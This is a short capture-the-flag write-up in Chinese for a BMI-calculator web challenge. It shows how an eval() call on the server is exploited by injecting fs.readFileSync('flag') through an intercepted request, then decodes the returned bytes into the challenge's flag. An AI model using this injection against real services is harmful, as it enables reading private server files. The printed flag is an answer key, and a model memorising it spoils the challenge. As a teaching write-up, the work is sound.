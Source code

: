# BMI 計算機

Author: 孫逸平

Date: 2024-06-06

Link: https://ctfd.fhh4ck3rs.taipei/challenges#BMI%20%E8%A8%88%E7%AE%97%E6%A9%9F-5

## 題目說明

體重的控制是重要的
> Author: xiunG

......但是說真的，減肥真的好難ＱＷＱ

所以...別講這種傷感情的事情了好嗎！

[BMI-Calculator.zip](./src/BMI-Calculator.zip)

## Write-up

1. 觀察題目給的 `app.js` 檔，發現使用 `eval()` 進行 BMI 的運算，且前端會先拼接好算式再丟到後端。
2. 故使用 Burp Suite 攔截並修改封包中的 `string` 值為：`fs.readFileSync('flag')`。
3. 傳送封包後得到以下訊息：
   ```JSON
   {"result":{"type":"Buffer","data":[70,104,67,84,70,123,98,82,101,65,107,95,98,77,49,95,99,65,99,117,49,97,84,48,114,125]}}
   ```
4. 將 data 中的數值，利用 ASCII 轉換成文字後（可使用下方 Python 程式），就得到 flag 了：`FhCTF{bReAk_bM1_cAcu1aT0r}`
   ```Python
   a = [70,104,67,84,70,123,98,82,101,65,107,95,98,77,49,95,99,65,99,117,49,97,84,48,114,125]

   for i in a:
     print(chr(i), end = "")
   ```
